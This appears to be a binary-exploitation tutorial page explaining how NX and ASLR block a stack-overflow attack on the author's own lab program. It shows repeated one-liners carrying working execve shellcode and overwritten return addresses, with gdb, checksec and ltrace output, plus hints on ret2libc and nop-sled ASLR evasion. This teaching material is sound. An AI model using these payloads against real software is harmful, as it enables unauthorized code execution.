 # Security techniques

Security techniques were invented to prevent exploitation of the programs. Each of them is aimed at concrete vulnerability. In general, these techniques are just compiler options or OS configuration.

## Non-Executable Stack(NX)

Prevents the attacker from jumping to the shellcode within the stack by disabling the execution of the stack. I disabled it before with an option of the compiler: `-z execstack`. Thus, it makes the stack executable or, in other words, it allows you to execute the content of the stack.

Let's try our stack-overflow exploit that we did before.

Firstly, start the exploit without the NX option:
```bash
$ checksec stack-overflow
[*] '/home/shogun/repos/basics-of-pwn/content/stack-overflow/stack-overflow'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
$ python3 exploit.py
[+] Starting local process './stack-overflow': pid 6803
[*] Switching to interactive mode
$ w
19:56:08 up 28 min,  1 user,  load average: 0.47, 0.65, 0.60
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
shogun   tty7     :0               19:27   28:37   1:25   1.39s xfce4-session
$  
```

Exploit works.

Now, try it with NX enabled:
```bash
$ gcc ../stack-overflow/stack-overflow.c -o stack-overflow-with-nx -fno-stack-protector -no-pie
$ checksec stack-overflow-with-nx
[*] '/home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
$ cp ../stack-overflow/exploit.py stack-overflow-exploit.py
$ python3 stack-overflow-exploit.py
[+] Starting local process './stack-overflow-with-nx': pid 7040
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ w
[*] Process './stack-overflow-with-nx' stopped with exit code -11 (SIGSEGV) (pid 7040)
[*] Got EOF while sending in interactive
```

Okay, you can see that the NX option is enabled as `checksec` said. And exploit is broken. Let's try without script:
```bash
$ (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*239 + "\x36\xcf\xff\xff"'; cat) | ./stack-overflow-with-nx

Segmentation fault (core dumped)
```

Okay, the program just crashed.

In gdb:
```bash
gef➤  unset environment LINES
gef➤  unset environment COLUMNS
gef➤  r < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*239 + "\x36\xcf\xff\xff"')
Starting program: /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*239 + "\x36\xcf\xff\xff"')

Program received signal SIGSEGV, Segmentation fault.
0xffffcf36 in ?? ()
gef➤  x/100wx $esp - 0x12a
0xffffcea6:	0xcfc8f7fa	0x923affff	0xcec60804	0xcf00ffff
0xffffceb6:	0x0003ffff	0x92240000	0xd0000804	0xe76cf7ff
0xffffcec6:	0x6850c031	0x68732f2f	0x69622f68	0x50e3896e
0xffffced6:	0xb0e18953	0x4180cd0b	0x41414141	0x41414141
0xffffcee6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcef6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf06:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf16:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf26:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf36:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf46:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf56:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf66:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf76:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf86:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf96:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcfa6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcfb6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcfc6:	0x41414141	0xcf364141	0x8000ffff	0x8000f7fa
0xffffcfd6:	0x0000f7fa	0xbee50000	0x0001f7dd	0xd0740000
0xffffcfe6:	0xd07cffff	0xd004ffff	0x8000ffff	0x0000f7fa
0xffffcff6:	0xd0580000	0x0000ffff	0xd0000000	0x0000f7ff
0xffffd006:	0x80000000	0x8000f7fa	0x0000f7fa	0x1c800000
0xffffd016:	0x9a909e20	0x0000dac2	0x00000000	0x00000000
0xffffd026:	0x00010000	0x90c00000	0x00000804	0x7cd40000
gef➤  r < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*239 + "\xc6\xce\xff\xff"')
Starting program: /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*239 + "\xc6\xce\xff\xff"')

Program received signal SIGSEGV, Segmentation fault.
0xffffcec6 in ?? ()
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start      End        Offset     Perm Path
0x08048000 0x08049000 0x00000000 r-- /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx
0x08049000 0x0804a000 0x00001000 r-x /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx
0x0804a000 0x0804b000 0x00002000 r-- /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx
0x0804b000 0x0804c000 0x00002000 r-- /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx
0x0804c000 0x0804d000 0x00003000 rw- /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx
0x0804d000 0x0806f000 0x00000000 rw- [heap]
0xf7dbd000 0xf7dda000 0x00000000 r-- /lib/i386-linux-gnu/libc-2.31.so
0xf7dda000 0xf7f35000 0x0001d000 r-x /lib/i386-linux-gnu/libc-2.31.so
0xf7f35000 0xf7fa5000 0x00178000 r-- /lib/i386-linux-gnu/libc-2.31.so
0xf7fa5000 0xf7fa6000 0x001e8000 --- /lib/i386-linux-gnu/libc-2.31.so
0xf7fa6000 0xf7fa8000 0x001e8000 r-- /lib/i386-linux-gnu/libc-2.31.so
0xf7fa8000 0xf7faa000 0x001ea000 rw- /lib/i386-linux-gnu/libc-2.31.so
0xf7faa000 0xf7fac000 0x00000000 rw-
0xf7fcb000 0xf7fcd000 0x00000000 rw-
0xf7fcd000 0xf7fd0000 0x00000000 r-- [vvar]
0xf7fd0000 0xf7fd1000 0x00000000 r-x [vdso]
0xf7fd1000 0xf7fd2000 0x00000000 r-- /lib/i386-linux-gnu/ld-2.31.so
0xf7fd2000 0xf7ff0000 0x00001000 r-x /lib/i386-linux-gnu/ld-2.31.so
0xf7ff0000 0xf7ffb000 0x0001f000 r-- /lib/i386-linux-gnu/ld-2.31.so
0xf7ffc000 0xf7ffd000 0x0002a000 r-- /lib/i386-linux-gnu/ld-2.31.so
0xf7ffd000 0xf7ffe000 0x0002b000 rw- /lib/i386-linux-gnu/ld-2.31.so
0xfffdd000 0xffffe000 0x00000000 rw- [stack]
```

Even, if you will jump to the right address the program will not execute it, because you can see that the stack hasn't an X flag.

But, it doesn't mean that you can't exploit it now. You can apply two exploitation techniques here: [Return to libc attack(ret2libc)](../bypass-security-techniques/bypass-security-techniques.md#return-to-libc-attack "https://github.com/whatsyourask/basics-of-pwn/blob/main/content/bypass-security-techniques/bypass-security-techniques.md#return-to-libc-attack") and `Return-Oriented programming(ROP)`.


## Address Space Layout Randomization(ASLR)

Prevents the attacker from jumping to the shellcode wherever by randomize the address space of a process. So, if you want to jump to a concrete address, for example, `0xffffcfdd`, you can't do it directly, because every time you execute the program, its address space changes. I disabled it before with `echo "0" | sudo dd of=/proc/sys/kernel/randomize_va_space`. Also, it makes it difficult to use `ret2libc attack`, because in this attack, you need to locate needed functions and with ASLR they will have random addresses.  

Let's again try the stack-overflow exploit.

```bash
$ sudo cat /proc/sys/kernel/randomize_va_space              
2
```

2 indicates that ASLR is enabled.

```bash
gef➤  unset environment LINES
gef➤  unset environment COLUMNS
gef➤  r < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 239 + "\xda\xce\xff\xff"')
Starting program: /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-for-aslr < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 239 + "\xda\xce\xff\xff"')

Program received signal SIGILL, Illegal instruction.
0xffffcfd6 in ?? ()
gef➤  x/100wx $esp - 0x10e
0xffffcec6:	0x0003ffff	0x92240000	0xd0000804	0xd76cf7ff
0xffffced6:	0x6850c031	0x68732f2f	0x69622f68	0x50e3896e
0xffffcee6:	0xb0e18953	0x4180cd0b	0x41414141	0x41414141
0xffffcef6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf06:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf16:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf26:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf36:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf46:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf56:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf66:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf76:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf86:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf96:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcfa6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcfb6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcfc6:	0x41414141	0x41414141	0x41414141	0xcfdc4141
0xffffcfd6:	0xce16ffff	0x622fffff	0x70006e69	0x7000f7fa
0xffffcfe6:	0x0000f7fa	0xaee50000	0x0001f7dd	0xd0840000
0xffffcff6:	0xd08cffff	0xd014ffff	0x7000ffff	0x0000f7fa
0xffffd006:	0xd0680000	0x0000ffff	0xd0000000	0x0000f7ff
0xffffd016:	0x70000000	0x7000f7fa	0x0000f7fa	0x93dd0000
0xffffd026:	0x35cd4860	0x00000ca2	0x00000000	0x00000000
0xffffd036:	0x00010000	0x90c00000	0x00000804	0x7cd40000
0xffffd046:	0x2410f7fe	0xc000f7fe	0x00010804	0x90c00000
gef➤  
```

Okay, try to change the return address:
```bash
gef➤  unset environment LINES
gef➤  unset environment COLUMNS
gef➤  r < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 239 + "\xd6\xce\xff\xff"')
Starting program: /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-for-aslr < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 239 + "\xd6\xce\xff\xff"')
process 58805 is executing new program: /bin/dash
[Inferior 1 (process 58805) exited normally]
gef➤  
```

Now, try it outside gdb with ltrace to see the addresses.
```bash
$ (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 239 + "\xda\xce\xff\xff"'; cat) | ltrace ./stack-overflow-for-aslr
__libc_start_main(0x8049243, 1, 0xff9226f4, 0x8049270 <unfinished ...>
gets(0xff922546, 0xff922580, 3, 0x8049224)                         = 0xff922546
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
w
$ (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 239 + "\xda\xce\xff\xff"'; cat) | ltrace ./stack-overflow-for-aslr
__libc_start_main(0x8049243, 1, 0xffc80924, 0x8049270 <unfinished ...>
gets(0xffc80776, 0xffc807b0, 3, 0x8049224)                         = 0xffc80776
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
w
$ (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 239 + "\xda\xce\xff\xff"'; cat) | ltrace ./stack-overflow-for-aslr w
__libc_start_main(0x8049243, 2, 0xffaa87a4, 0x8049270 <unfinished ...>
gets(0xffaa85f6, 0xffaa8630, 3, 0x8049224)                         = 0xffaa85f6
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
w
```

Each time I run the program ltrace showed a different address. python script with [ret2libc](../bypass-security-techniques/ret2libc-attack.py) attack won't work too. But ASLR can be evaded with the next method: place a large nop-chain with shellcode in the env variable and then jump to it. Of course, you must have the access to env variable and, also, you must check that the env variables will not be cleaned. You need a large payload here to increase the probability of jumping to your shellcode.
